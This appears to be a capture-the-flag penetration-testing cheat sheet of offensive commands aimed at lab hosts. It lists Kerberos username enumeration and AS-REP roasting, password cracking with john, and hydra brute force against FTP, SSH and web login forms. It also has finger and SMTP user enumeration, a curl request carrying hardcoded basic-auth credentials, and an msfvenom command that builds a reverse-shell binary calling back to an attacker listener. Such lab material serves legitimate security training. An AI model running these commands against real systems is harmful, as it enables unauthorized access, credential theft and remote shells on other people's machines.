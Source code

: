 Brute force valid usernames in Kerberos:
`kerbrute userenum --dc $IP -d domain.ctf /usr/share/seclists/Usernames/top-usernames-shortlist.txt`

Test if Kerberos Pre-auth is disabled for any specific account:
`GetNPUsers.py -dc-ip $IP -no-pass domain.ctf/administrator`

Test if Kerberos Pre-auth is disabled for all accounts (Recommended since it will capture service accounts):
`GetNPUsers.py -dc-ip $IP domain.ctf/ -request`
If Kerberos pre-auth is disabled on any of the above accounts, can use GetNPUsers to send dummy requests for authentication

John to crack hash:
`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

ISC BIND - NoIP `/nic/update` to create our own dns record: (needs credentials, default may work)
``curl -X GET 'http://no-ip.htb/nic/update?hostname=new.domain.ctf&myip=<yourip>' --header "Authorization: Basic `echo -n dynadns:sndanyd | base64`"``

Remote and local mysql:
```
mysql -u username -h 10.0.0.1 -p
mysql -u username -pPASSWORD -e "SELECT @@version;"
```

Create your own privatekey (can be used to bypass JWT cookie that requires valid private key):
`openssl genrsa -out privKey.key 2048`

Port 79 - finder service. Protocol allows fingepritning users on remote system, so we can enumerate users:
```
finger @$IP
finger admin@$IP
# Brute force
./finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.76
```

SMTP enumeration: `smtp-user-enum -U /usr/share/wordlists/metasploit/unix_users.txt -t "ip_addr"`   

## Brute Force

FTP: `hydra -l root -P /usr/share/wordlists/rockyou.txt -t 32 10.0.0.1 ftp`

SSH: `hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.0.0.1`

HTTP FORM: `hydra -P "/usr/share/seclists/Passwords/darkweb2017-top10000.txt" "http-post-form://10.0.0.1/login.php:action=login&username=admin&password=^PASS^:Invalid Credentials" -l admin`

# Reverse Shells or Shell access

Reverse Shell Payloads: x

Msfvenom linux elf binary reverse shell:
`msfvenom -p linux/x86/shell_reverse_tcp LHOST=$IP LPORT=1337 -f elf -o shell.elf`
